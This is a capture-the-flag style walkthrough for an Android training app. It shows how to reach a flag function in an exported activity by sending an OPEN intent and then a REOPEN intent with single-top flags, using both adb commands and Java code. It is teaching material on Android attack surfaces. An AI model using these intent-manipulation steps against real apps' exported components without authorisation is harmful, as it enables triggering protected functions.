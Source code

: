 The received intent it's Action content will be checked for `"OPEN"`. But to get into `success()` you need `onNewIntent()`  which:
- Retrieves the **action string** from the **new incoming intent**.
- If action is `null` or not equal to `"REOPEN"`, it returns/exit.
- If action is `"REOPEN"`, it adds the tag `"REOPEN"` and calls `success(this)`.

But how to trigger `onNewIntent()` ?
This method is part of the **Activity lifecycle** and is triggered **only** when:
- The activity is **already running**, & It is launched with an intent that does **not create a new instance** (reset activity by creating new one )
- Instead **reuses the existing activity instance**, based on its **launch mode** or **intent flags**.

#### Solution

Using ADB :
```shell
adb shell 
am start -n io.hextree.attacksurface/.activities.Flag7Activity -a OPEN
sleep 1
am start -n io.hextree.attacksurface/.activities.Flag7Activity -a REOPEN --activity-single-top
```

OR a one liner like:
```shell
adb shell "am start -n io.hextree.attacksurface/.activities.Flag7Activity -a OPEN && sleep 1 && am start -n io.hextree.attacksurface/.activities.Flag7Activity -a REOPEN --activity-single-top"
```

Basically this just launches shell on device and use activity manager `am` that starts the activity `Flag7Activity` with action `OPEN` then paused for 1 second to ensure activity is fully launched then relaunch it  with action `REOPEN` and force it to run `single-top` to reuse the activity not start new one

Using java :

1. If the activity starts quickly, you wont not need a delay:
```java
Intent firstIntent = new Intent();  
firstIntent.setClassName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag7Activity"  
);  
firstIntent.setAction("OPEN");  
startActivity(firstIntent);  
  
Intent reopenIntent = new Intent();  
reopenIntent.setAction("REOPEN"); // Required to trigger success()  
reopenIntent.addFlags(Intent.FLAG_ACTIVITY_SINGLE_TOP | Intent.FLAG_ACTIVITY_REORDER_TO_FRONT);  
reopenIntent.setClassName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag7Activity"  
);  
startActivity(reopenIntent);
```
